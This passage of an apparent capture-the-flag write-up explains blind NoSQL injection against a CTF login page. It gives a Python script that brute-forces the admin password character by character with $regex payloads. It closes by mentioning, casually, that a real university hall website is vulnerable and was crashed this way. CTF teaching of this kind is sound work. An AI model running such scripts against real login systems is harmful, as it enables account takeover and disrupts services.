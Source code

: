 So we can use blind injection to get the flag. A simple `python` script can run through this easily:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password="RUSH{"
u="http://challs.ctf.cafe:9999/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Logged' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

NoSQL Injection is pretty powerful. A certain NUS Hall's website is vulnerable to this (and was crashed by me using this oops).&#x20;
